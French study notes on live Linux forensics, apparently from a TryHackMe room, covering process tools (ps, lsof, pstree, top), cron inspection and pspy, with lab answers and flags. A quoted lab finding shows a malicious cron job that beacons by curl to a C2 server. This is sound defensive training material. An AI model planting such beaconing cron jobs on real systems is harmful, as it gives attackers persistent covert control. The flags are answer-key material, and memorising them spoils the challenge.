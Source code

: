 
## Introduction
Dans une analyse à chaud (directement sur le système), il est important d'avoir les repertoires suivants "propre", pour être sur que les binaires ne soit pas compromis, et fournir de vraie preuve. 
 - `bin`
 - `sbin` 
 - `lib`
 - `lib64`

Pour ça il nous faut intégrer des binaires "propre", qui viennent d'une installation neuve. Voici comment les importer dans notre machine : 
```Bash
export PATH=/mnt/usb/bin:/mnt/usb/sbin
export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt/usb/lib64
```

## Processus 
Un processus est un instance en cours d'exécution. Chaque processus possède un PID (Process ID) unique, cela permet au système de le gérer et de le suivre.

Les processus peuvent avoir une relation parent-enfant, le parent appel l'enfant. Ils seront "attaché" l'un à l'autre (nous pourrons voir quel est le parent du processus enfant, et quel processus à appeler le parent). 

Nous avons plusieurs utilitaire qui peuvent être utilisé pour voir les processus en cours d'exécution :

### PS
La commande `ps` nous donne cet output : 
![[Pasted image 20251006130135.png]]
Où : 
 - `PID` : Un identifiant unique pour chaque processus
 - `TTY` : Le terminal associé au processus
 - `TIME` : Temps utilisé par le processus 
 - `CMD` : Commande associé au processus

Il est également possible d'associé un utilisateur à la commande ps (pour voir quel processus est relié à quel utilisateur) : 
![[Pasted image 20251006130454.png]]

### LSOF
`LSOF` permet de voir les fichiers ouvert par les processus système, nous pouvons associé un PID à `lsof` pour voir quel fichier/commande à été ouvert/lancé avec le processus voulu. 

Exemple d'utilisation : 
```Bash
lsof -p <PID>
```


### PSTREE
Cet utilitaire nous permet de lister les processus sous forme d'arborescence, ce qui permet de voir rapidement les relations parent-enfant. 

Exemple d'utilisation : 
```Bash
pstree -s -p <PID>
```
 - `-s` : lister les processus parent
 - `-p` : donne le PID

### TOP
Le problème des outils ci-dessus est qu'ils sont statique, ce qui permet de voir dynamiquement (et surtout en direct) les processus en cours d'execution sur la machine. Il nous donne également un plus d'information par rapport à l'utilisation du CPU et de la MEMOIRE. 

Exemple d'utilisation : 
```Bash
top -d 5 -u <user> -c
```
 - `-d` : mise à jour dynamique toutes les 5 secondes
 - `-u` : définit un utilisateurs (pas obligatoire)
 - `-c` : donne le chemin complet des commande (avec le /bin/bash)

### Question THM
```txt 
Q : Which command lists all open files and the processes that opened them?

A : lsof
```

```txt
Q : Use `pstree` to list out the process hierarchies. What is the name of the `nc` processes parent?

A : abzkd83o4jakxld
```

## Cronjobs
Cron est un outil qui permet de lancé automatiquement des processus à des moments spécifique, soit sous forme de "boucle" (toutes les secondes, minutes, heures, jours, mois ...) soit à chaque redémarrage ... 

Le fichier principal de cron se situe dans `/etc/crontab` mais il existe un repertoire qui nous donne chaque tâche par utilisateur : `/var/spool/cron/crontabs` 

```txt
Voila la nomenclature du fichier cron
M | H | Jour du Mois | Mois | Jour de la Semaine | Commande

10  05        *          *            *           /home/bob/backup_tmp.sh

Dans cet exemple tout les jours à 5:10 la tâche Backup_tmp.sh se lancera
```

Toute les tâches effectué par cron sont logué dans `syslog` nous pouvons exécuter cette commande pour voir les log lié à cron : 
```Bash
sudo grep cron /var/log/syslog

# Pour voir les tâches lié à un utilisateur
sudo grep cron /var/log/syslog | grep -i '<utilisateur>'
```

### PSPY

Pspy est un outil open source permettant de surveiller en temps réel les processus Linux sans privilèges root. Il lit directement les données du système virtuel **/proc** pour afficher des informations comme les commandes exécutées, les PID, PPID, utilisateurs et horodatages.  
Utile pour l’énumération et la réponse à incident, il permet d’identifier les processus éphémères et de suivre l’exécution de tâches **cron**, offrant ainsi une meilleure visibilité sur l’activité du système.

Exemple d'utilisation : 
```Bash
pspy64
```


### Question THM
```
Q : Search around the system for suspicious **system-level** cronjob entries. What is the full URL of the C2 server?

$ cat /etc/crontab
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 * * * * root /var/tmp/backup

$ cat /etc/cron.hourly/beacon
curl http://c2.intelligent-software.thm:8310/beacon

A : http://c2.intelligent-software.thm:8310/beacon
```

```
Q : List the **user-level** cronjobs in the system. What is the hidden flag in one of the scripts?

$ ls /var/spool/cron/crontabs/
bob  elijah  janice  root  ubuntu
$ cat /var/spool/cron/crontabs/elijah 
0 3 * * * /home/elijah/.flag.sh
$ cat /home/elijah/.flag.sh
THM{4682786cf2d92f01c4d30a2bbf4621f7}

A : THM{4682786cf2d92f01c4d30a2bbf4621f7}
```

```
Q : Use **pspy64** to monitor executions occurring through the system. What is the decoded flag value that is echoed every 15 seconds?

$ pspy64
2025/10/06 11:58:14 CMD: UID=0     PID=6370   | /bin/sh -c /bin/echo -e 'VEhNezg1MWE5ODE0NDVkYmZiOTQ4NWMzNzcxNTEwYTUzNTY4fQ==' 
2025/10/06 11:58:14 CMD: UID=0     PID=6371   | sleep 15 

$ base64 -d 'VEhNezg1MWE5ODE0NDVkYmZiOTQ4NWMzNzcxNTEwYTUzNTY4fQ==''
THM{851a981445dbfb9485c3771510a53568}

A : THM{851a981445dbfb9485c3771510a53568}
```
